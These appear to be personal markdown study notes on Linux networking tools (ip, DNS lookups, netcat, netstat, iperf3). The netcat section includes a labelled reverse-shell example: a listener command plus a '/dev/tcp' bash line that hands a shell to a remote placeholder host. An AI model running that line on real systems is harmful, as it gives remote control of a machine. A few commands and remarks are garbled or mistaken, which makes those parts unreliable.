

# ip command

`ip addr` shows addressed assigned to all network interfaces

`ip link` shows all accessible intefaces

`ip route` shows routing table

`ip route list table local` provides additional (internal e.g. loopback or broadcast) route addresses

`ip route add 192.168.12.0/24 via 172.16.0.2`

`ip route add default via 172.16.0.2`

> [!NOTE]
> default is an alias for 0.0.0.0/0

`ip link set enpxsy name enp-rem` changes name for an interface to enp-rem

> [!NOTE]
> interface has to be down during rename

`ip addr flush dev enp0s3` resets inteface setting

`ip link set down dev enp0s3` sets down intefcae

`ip link set up dev enp0s3` sets up interface

`ip addr add 1.0.1/24 dev enp0s3` assigns addres to interface by hand

> [!WARNING]
> `ip addr add` with mask -  puts default gatway ip to route table, but would't if mask wasn't provided\
> additionaly route table for specific interface will be accessible iff interface is set up

> [!NOTE]
> common name for ethernet interface is enp#s#f#, which stands for:
>```
>en = ethernet
>p# = PCI bus number
>s# = slot number
>f# = function index
>```

# dhclient - DHCP - Dynamic host conf protocol

`dhclient enp0s3 -v`

ISP - internet service provider

# host DNS 

`host -t a example.org` -DNS CLIENT with (t)ype of record

`traceroute -A example.org` - additional info about each consecutive AS number that can be used with whois

`traceroute -n 192.168.4.4` - turn off dns request when repling ipv4 -> host

### dns flow



### dns query types
* recursive - dns resolvers sends a message if it can, by doing recursive calls

* iterative - dns resolver sends the best answer he can give and client has to make another call itself

* non-recursive - idk


### dns servers
* DNS resolver (recursive resolver)

* Root provider (there are 13) if dns resolver doesn't have some record it root provider for it
  
* Authoritative server (like google.com)
  
* Top level domains

### dns records

| type  | description                                                          |
| ----- | -------------------------------------------------------------------- |
| A     | resolves ipv4 addreses                                               |
| AAAA  | resolves ipv6 adresses                                               |
| CNAME | creates aliases to domain `ftp.example.com -> example.com`           |
| MX    | where to send email `MX example.com with prio -> mail1.example.com ` |
| SOA   | (start of authority)                                                 |

# nc  - netcat
### connect two computers

`-u` - `UDP` instead of `TCP` is used

server
```bash
nc -l 1337
```

client
```bash
nc ipaddr 1337
```

### reverse shell

attacker
```bash
nc -l -v -n -p 3000
```

target
```bash
/bin/bash - i >& /dev/tcp/ip/port 0>&1
```


# telnet host port
allows plain communication in tcp

# netstat
prints active network devices with lots of addition info about active ports, ethernet stats, ipv4 stats (ip, icmp, tcp , udp)

`netstat -l46n` - prints active listning services\
`netstat -l46` - prints active listning serices but with service using /etc/services

`sudo netstat -tulpn` l - listning, p- program, n -numeric


> [!NOTE]
> `/etc/services` is a mapping between protocols names and its TCP/UDP ports

> [!NOTE]
> `/etc/hosts` is a "local dns file" each records look like `127.0.1.1    virbian`


# ethtool
for managing network interfaces devices
obtaining properties :  `ethtool enp0s3`

# iperf3 - performance measurment application btw client and server

`iperf -s` listen
`iperf3 -c 192.168.0.2` sends

> [!NOTE]
> `iperf3` commonly works on port 5201
>
# ping
if intermediate router doesn't know where to send ping packet, it sends `Destination host unreachable` packet to sender
